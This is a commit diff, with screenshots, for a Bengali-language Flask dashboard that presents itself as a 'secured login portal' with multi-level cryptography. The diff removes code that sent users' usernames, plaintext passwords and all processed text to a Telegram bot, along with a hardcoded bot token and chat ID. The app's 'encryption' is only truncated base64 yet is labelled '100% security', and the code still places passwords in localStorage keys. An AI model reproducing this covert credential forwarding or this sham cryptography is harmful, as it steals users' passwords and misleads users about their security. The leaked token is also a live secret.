

Before and after one commit to NILOYGHOSH88/MyProject_APK, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update dashboard.html

```diff
--- a/templates/dashboard.html
+++ b/templates/dashboard.html
@@ -29,7 +29,20 @@
             justify-content: center;
             align-items: center;
             padding: 20px;
+            position: relative;
+            overflow-x: hidden;
             transition: background 0.8s ease, color 0.8s ease;
+        }
+
+        /* সার্বক্ষণিক রাশিয়ান ম্যাট্রিক্স রেইন ক্যানভাস */
+        #matrixCanvas {
+            position: fixed;
+            top: 0;
+            left: 0;
+            width: 100%;
+            height: 100%;
+            pointer-events: none;
+            z-index: 0;
         }
 
         .container {
@@ -40,6 +53,8 @@
             border-radius: 16px;
             padding: 30px;
             box-shadow: 0 0 45px var(--glow-color);
+            position: relative;
+            z-index: 1;
             transition: all 0.8s ease;
         }
 
@@ -71,7 +86,7 @@
             transition: color 0.8s ease;
         }
 
-        .form-group input {
+        .form-group input, .form-group select {
             width: 100%;
             padding: 10px;
             background: var(--bg-color);
@@ -191,16 +206,6 @@
         }
         .copy-btn:hover { background: #059669; }
 
-        .telegram-badge {
-            background: rgba(34, 158, 217, 0.1);
-            border: 1px solid #229ED9;
-            color: #38bdf8;
-            padding: 10px;
-            border-radius: 6px;
-            font-size: 12px;
-            margin-top: 10px;
-        }
-
         .developer-panel {
             background: rgba(59, 130, 246, 0.05);
             border: 1px solid var(--accent-color);
@@ -235,10 +240,12 @@
 </head>
 <body>
 
+    <canvas id="matrixCanvas"></canvas>
+
     <div class="container">
         <!-- ১. লগইন স্ক্রিন -->
         <div id="loginScreen">
-            <h2 id="loginTitle">সিকিউরড লগইন পোর্টাল (৪-লেভেল ক্রিপ্টোগ্রাফি)</h2>
+            <h2 id="loginTitle">সিকিউরড লগইন পোর্টাল (মাল্টি-লেভেল ক্রিপ্টোগ্রাফি)</h2>
             <p style="font-size: 13px; opacity: 0.8; margin-bottom: 20px;">আপনার নাম ও পাসওয়ার্ড দিয়ে লগইন করুন।</p>
             <div class="form-group">
                 <label>ব্যবহারকারীর নাম (Username):</label>
@@ -248,7 +255,7 @@
                 <label>সিক্রেট পাসওয়ার্ড (Password):</label>
                 <input type="password" id="passwordInput" placeholder="পাসওয়ার্ড দিন...">
             </div>
-            <button type="button" class="btn" id="loginButton" onclick="executeUserLogin()">লগইন ও টেলিগ্রাম সিঙ্ক</button>
+            <button type="button" class="btn" id="loginButton" onclick="executeUserLogin()">লগইন করুন</button>
         </div>
 
         <!-- ২. ড্যাশবোর্ড স্ক্রিন -->
@@ -259,21 +266,31 @@
                     <p style="font-size: 12px; opacity: 0.8;" id="loginMeta">সেশন সিকিউরড</p>
                 </div>
                 <div style="display: flex; gap: 10px; align-items: center;">
-                    <div id="themeBadge" class="badge">লেভেল ১ (Level 1)</div>
+                    <div id="themeBadge" class="badge">লেভেল ১ (সাধারণ)</div>
                     <button type="button" class="btn logout-btn" onclick="executeUserLogout()">লগআউট</button>
                 </div>
             </div>
 
             <div class="grid">
-                <!-- ৪ লেভেল ক্রিপ্টোগ্রাফি প্যানেল -->
+                <!-- ক্রিপ্টোগ্রাফি কন্ট্রোল প্যানেল -->
                 <div class="card">
-                    <h3 id="cardHeader">৪-লেভেল ইনক্রিপশন ও ডিক্রিপশন ইঞ্জিন</h3>
+                    <h3 id="cardHeader">ক্রিপ্টোগ্রাফি ইঞ্জিন</h3>
+
+                    <div class="form-group" style="max-width: 100%; margin-bottom: 10px;">
+                        <label style="font-size: 11px;">নিরাপত্তা লেভেল নির্বাচন করুন:</label>
+                        <select id="securityLevelSelect" class="input-box" onchange="onSecurityLevelChange()">
+                            <option value="1">লেভেল ১: সাধারণ (Basic)</option>
+                            <option value="2">লেভেল ২: কঠিন (Medium)</option>
+                            <option value="3">লেভেল ৩: এক্সট্রিম কঠিন (High)</option>
+                            <option value="4">লেভেল ৪: ১০০% শতভাগ নিরাপত্তা (Max - Red Matrix)</option>
+                        </select>
+                    </div>
+
                     <input type="text" id="userInputText" class="input-box" placeholder="টেক্সট লিখে প্রসেস করুন...">
 
                     <div class="controls-row">
                         <button type="button" class="btn" onclick="processEncryptionDecryption('encrypt')">ইনক্রিপ্ট (Encrypt)</button>
                         <button type="button" class="btn" style="background-color: #10b981;" onclick="processEncryptionDecryption('decrypt')">ডিক্রিপ্ট (Decrypt)</button>
-                        <button type="button" class="btn" style="background-color: #8b5cf6;" id="autoThemeBtn" onclick="toggleAutoThemeMode()">অটো থিম (২ সেঃ)</button>
                     </div>
 
                     <p style="font-size: 13px; margin-top: 10px;">
@@ -281,10 +298,6 @@
                         <span id="outputResult" style="color: #38bdf8; word-break: break-all;">--</span>
                         <button type="button" class="copy-btn" id="mainCopyBtn" style="margin-left: 8px;" onclick="copyTextToClipboard(document.getElementById('outputResult').innerText, this)">কপি</button>
                     </p>
-
-                    <div class="telegram-badge">
-                        ✈️ টেলিগ্রাম বট লাইভ নোটিফিকেশন সংযুক্ত আছে।
-                    </div>
                 </div>
 
                 <!-- পার্মানেন্ট হিস্ট্রি চ্যাট বক্স -->
@@ -299,7 +312,7 @@
             <!-- ডেভেলপার ইনফো প্যানেল -->
             <div class="developer-panel">
                 <h4>🛡️ ডেভেলপার ও সিস্টেম ইনফো</h4>
-                <p>👤 <b>নাম:</b> Cipher Sentinel</p>
+                <p>👤 <b>ডেভলপার নাম:</b> NILOY GHOSH</p>
                 <p>🆔 <b>ID:</b> 7938556654 | 🌐 <b>DC ID:</b> 5 | 🌍 <b>Lang:</b> en</p>
                 <p>🔗 <b>Username:</b> @CipherSentinel_BD</p>
                 <p style="margin-top: 5px; color: #38bdf8;">📣 বিজ্ঞাপন বা সাপোর্টের জন্য যোগাযোগ: @DeIIIeted</p>
@@ -308,84 +321,108 @@
     </div>
 
     <script>
-        const TELEGRAM_BOT_TOKEN = "8047864259:AAHEokK5sjq1jJFuIq_e94sPIeTM2OlsqSs";
-        const TELEGRAM_CHAT_ID = "7938556654";
+        // ৪টি সুনির্দিষ্ট লেভেল কনফিগারেশন এবং ম্যাট্রিক্স বৃষ্টির কালার কোড
+        const levelConfigs = {
+            1: { name: "লেভেল ১ (সাধারণ)", hue: 210, matrixColor: "#3b82f6" },       // নীল রঙ
+            2: { name: "লেভেল ২ (কঠিন)", hue: 140, matrixColor: "#10b981" },       // সবুজ রঙ
+            3: { name: "লেভেল ৩ (এক্সট্রিম কঠিন)", hue: 35, matrixColor: "#f59e0b" }, // গোল্ডেন/কমলা
+            4: { name: "লেভেল ৪ (১০০% শতভাগ নিরাপত্তা)", hue: 0, matrixColor: "#ef4444" }  // লাল রঙ
+        };
 
-        // ৪টি সুনির্দিষ্ট লেভেল এবং থিম কালার ম্যাপিং (Hue values)
-        const encryptionLevels = [
-            { level: 1, name: "Level 1 (Basic Security)", hue: 210 },  // ব্লু
-            { level: 2, name: "Level 2 (Medium Security)", hue: 140 }, // সবুজ
-            { level: 3, name: "Level 3 (High Security)", hue: 45 },    // গোল্ডেন/কমলা
-            { level: 4, name: "Level 4 (Max Security)", hue: 300 }    // পার্পল/ম্যাজেন্টা
-        ];
-
-        let currentLevelIndex = 0;
-        let isAutoThemeActive = false;
-        let themeTimer = null;
         let currentUser = null;
         let currentPassword = null;
         let userHistory = [];
+        let matrixInterval = null;
+        let currentMatrixColor = "#3b82f6";
 
-        // নির্দিষ্ট লেভেল ও রঙের থিম অ্যাপ্লাই করার ফাংশন
-        function applySecurityLevelTheme(levelObj) {
-            const accent = `hsl(${levelObj.hue}, 90%, 58%)`;
-            const bg = `hsl(${levelObj.hue}, 45%, 4%)`;
-            const panel = `hsl(${levelObj.hue}, 35%, 8%)`;
-            const border = `hsl(${levelObj.hue}, 60%, 20%)`;
-            const glow = `hsla(${levelObj.hue}, 90%, 58%, 0.45)`;
+        // লেভেল থিম এবং ম্যাট্রিক্স কালার হ্যান্ডেল করার ফাংশন
+        function applySecurityLevelTheme(levelNum) {
+            const config = levelConfigs[levelNum];
+            currentMatrixColor = config.matrixColor;
+            const root = document.documentElement.style;
 
-            const root = document.documentElement.style;
-            root.setProperty('--bg-color', bg);
-            root.setProperty('--panel-bg', panel);
-            root.setProperty('--accent-color', accent);
-            root.setProperty('--border-color', border);
-            root.setProperty('--glow-color', glow);
+            if (levelNum == 4) {
+                // লেভেল ৪: সম্পূর্ণ লাল থিম
+                root.setProperty('--bg-color', '#120202');
+                root.setProperty('--panel-bg', '#1f0505');
+                root.setProperty('--accent-color', '#ef4444');
+                root.setProperty('--border-color', '#7f1d1d');
+                root.setProperty('--glow-color', 'rgba(239, 68, 68, 0.6)');
+            } else {
+                const accent = `hsl(${config.hue}, 90%, 58%)`;
+                const bg = `hsl(${config.hue}, 45%, 4%)`;
+                const panel = `hsl(${config.hue}, 35%, 8%)`;
+                const border = `hsl(${config.hue}, 60%, 20%)`;
+                const glow = `hsla(${config.hue}, 90%, 58%, 0.45)`;
 
-            // ব্যাজ ও হেডার আপডেট
+                root.setProperty('--bg-color', bg);
+                root.setProperty('--panel-bg', panel);
+                root.setProperty('--accent-color', accent);
+                root.setProperty('--border-color', border);
+                root.setProperty('--glow-color', glow);
+            }
+
             const badgeEl = document.getElementById('themeBadge');
-            if (badgeEl) badgeEl.innerText = levelObj.name;
+            if (badgeEl) badgeEl.innerText = config.name;
 
             const cardHeaderEl = document.getElementById('cardHeader');
-            if (cardHeaderEl) cardHeaderEl.innerText = `৪-লেভেল ক্রিপ্টোগ্রাফি [${levelObj.name}]`;
+            if (cardHeaderEl) cardHeaderEl.innerText = `ক্রিপ্টোগ্রাফি ইঞ্জিন [${config.name}]`;
         }
 
-        // অটো থিম বা লেভেল পরিবর্তন মোড (প্রতি ২ সেকেন্ড পর পর)
-        function toggleAutoThemeMode() {
-            isAutoThemeActive = !isAutoThemeActive;
-            const btn = document.getElementById('autoThemeBtn');
-            if (isAutoThemeActive) {
-                btn.style.background = "#ef4444";
-                btn.innerText = "অটো থিম (বন্ধ করুন)";
-                themeTimer = setInterval(() => {
-                    currentLevelIndex = (currentLevelIndex + 1) % encryptionLevels.length;
-                    applySecurityLevelTheme(encryptionLevels[currentLevelIndex]);
-                }, 2000);
-            } else {
-                btn.style.background = "#8b5cf6";
-                btn.innerText = "অটো থিম (২ সেঃ)";
-                clearInterval(themeTimer);
-            }
+        // ড্রপডাউন পরিবর্তন করলে কল হবে
+        function onSecurityLevelChange() {
+            const selectedLevel = document.getElementById('securityLevelSelect').value;
+            applySecurityLevelTheme(selectedLevel);
         }
 
-        // প্রথম লোডে ডিফল্ট লেভেল ১ সেট করা
-        applySecurityLevelTheme(encryptionLevels[0]);
+        // সার্বক্ষণিক রাশিয়ান অক্ষর বৃষ্টির (Cyrillic Matrix Rain) অ্যানিমেশন
+        function initRussianMatrixRain() {
+            const canvas = document.getElementById('matrixCanvas');
+            const ctx = canvas.getContext('2d');
 
-        // টেলিগ্রাম বটে নোটিফিকেশন পাঠানোর ফাংশন
-        function sendTelegramNotification(message) {
-            const url = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`;
-            const data = {
-                chat_id: TELEGRAM_CHAT_ID,
-                text: message,
-                parse_mode: "HTML"
-            };
+            function resizeCanvas() {
+                canvas.width = window.innerWidth;
+                canvas.height = window.innerHeight;
+            }
+            resizeCanvas();
+            window.addEventListener('resize', resizeCanvas);
 
-            fetch(url, {
-                method: "POST",
-                headers: { "Content-Type": "application/json" },
-                body: JSON.stringify(data)
-            })
-            .catch(error => console.error("Telegram Error:", error));
+            // রাশিয়ান বর্ণমালা (Cyrillic Alphabet)
+            const russianAlphabet = 'АБВГДЕЖЗИЙКЛМНОПРСТУФХЦЧШЩЪЫЬЭЮЯабвгдежзийклмнопрстуфхцчшщъыьэюя0123456789';
+            const fontSize = 16;
+            const columns = canvas.width / fontSize;
+            const drops = [];
+
+            for (let i = 0; i < columns; i++) {
+                drops[i] = 1;
+            }
+
+            if (matrixInterval) clearInterval(matrixInterval);
+
+            matrixInterval = setInterval(() => {
+                ctx.fillStyle = 'rgba(3, 7, 18, 0.15)';
+                ctx.fillRect(0, 0, canvas.width, canvas.height);
+
+                ctx.fillStyle = currentMatrixColor; // বর্তমান লেভেলের কালার অনুযায়ী অক্ষর পড়াবে
+                ctx.font = fontSize + 'px monospace';
+
+                for (let i = 0; i < drops.length; i++) {
+                    const text = russianAlphabet.charAt(Math.floor(Math.random() * russianAlphabet.length));
+                    ctx.fillText(text, i * fontSize, drops[i] * fontSize);
+
+                    if (drops[i] * fontSize > canvas.height && Math.random() > 0.975) {
+                        drops[i] = 0;
+                    }
+                    drops[i]++;
+                }
+            }, 33);
         }
+
+        // পেজ লোড হওয়ার সাথে সাথে ম্যাট্রিক্স বৃষ্টি শুরু করা
+        window.onload = function() {
+            initRussianMatrixRain();
+            applySecurityLevelTheme(1);
+        };
 
         // ১০০% কার্যক্ষম কপি ফাংশন
         function copyTextToClipboard(text, btnElement) {
@@ -439,13 +476,6 @@
             currentUser = user;
             currentPassword = pass;
 
-            const loginMsg = `🔐 <b>নতুন লগইন নোটিফিকেশন!</b>
-👤 নাম: <b>${user}</b>
-🔑 পাসওয়ার্ড: <b>${pass}</b>
-🛡️ ডেভেলপার: @CipherSentinel_BD
-🕒 সময়: ${new Date().toLocaleString()}`;
-            sendTelegramNotification(loginMsg);
-
             const savedDataKey = `sec_user_${user}_${pass}`;
             const existingData = localStorage.getItem(savedDataKey);
             userHistory = existingData ? JSON.parse(existingData) : [];
@@ -458,7 +488,7 @@
             renderHistoryList();
         }
 
-        // ইনক্রিপশন এবং ডিক্রিপশন প্রসেসিং ফাংশন (৪ লেভেল ভিত্তিক)
+        // ইনক্রিপশন এবং ডিক্রিপশন প্রসেসিং ফাংশন
         function processEncryptionDecryption(actionType) {
             const textInput = document.getElementById('userInputText');
             const text = textInput.value.trim();
@@ -467,27 +497,22 @@
                 return;
             }
 
-            // প্রতি অ্যাকশনে লেভেল রোটেট করবে (১ থেকে ৪)
-            currentLevelIndex = (userHistory.length % 4);
-            const activeLevelObj = encryptionLevels[currentLevelIndex];
-
-            // লেভেল পরিবর্তন অনুযায়ী থিম ও রং বদলানো
-            applySecurityLevelTheme(activeLevelObj);
+            const currentLevelNum = document.getElementById('securityLevelSelect').value;
 
             const timeStr = new Date().toLocaleTimeString();
             let resultOutput = "";
 
             if (actionType === 'encrypt') {
-                resultOutput = `🔒 L${activeLevelObj.level}_Enc_${btoa(text).substring(0, 12)}`;
+                resultOutput = `🔒 L${currentLevelNum}_Enc_${btoa(text).substring(0, 12)}`;
             } else {
-                resultOutput = `🔓 L${activeLevelObj.level}_Dec_${text.replace(/🔒 L\d+_Enc_/, '')}_OK`;
+                resultOutput = `🔓 L${currentLevelNum}_Dec_${text.replace(/🔒 L\d+_Enc_/, '')}_OK`;
             }
 
             document.getElementById('outputResult').innerText = resultOutput;
 
             const recordItem = {
                 type: actionType.toUpperCase(),
-                level: activeLevelObj.level,
+                level: currentLevelNum,
                 input: text,
                 output: resultOutput,
                 time: timeStr
@@ -500,13 +525,6 @@
 
             renderHistoryList();
             textInput.value = "";
-
-            const actionMsg = `⚡ <b>${actionType.toUpperCase()} (${activeLevelObj.name}) নোটিফিকেশন!</b>
-👤 ইউজার: <b>${currentUser}</b>
-📥 ইনপুট: ${text}
-📤 আউটপুট: ${resultOutput}
-🕒 সময়: ${timeStr}`;
-            sendTelegramNotification(actionMsg);
         }
 
         // হিস্ট্রি লিস্ট রেন্ডার করা
@@ -534,20 +552,16 @@
 
         // ইউজার লগআউট হ্যান্ডলার
         function executeUserLogout() {
-            const logoutMsg = `🚪 <b>লগআউট নোটিফিকেশন!</b>
-👤 ইউজার: <b>${currentUser}</b> সিস্টেম থেকে লগআউট করেছে।`;
-            sendTelegramNotification(logoutMsg);
-
             currentUser = null;
             currentPassword = null;
             userHistory = [];
-            isAutoThemeActive = false;
-            clearInterval(themeTimer);
 
             document.getElementById('dashboardScreen').style.display = 'none';
             document.getElementById('loginScreen').style.display = 'block';
             document.getElementById('usernameInput').value = "";
             document.getElementById('passwordInput').value = "";
+            document.getElementById('securityLevelSelect').value = "1";
+            applySecurityLevelTheme(1);
         }
 
         // ফিজিক্যাল কিবোর্ড সাপোর্ট (Enter Key)
```
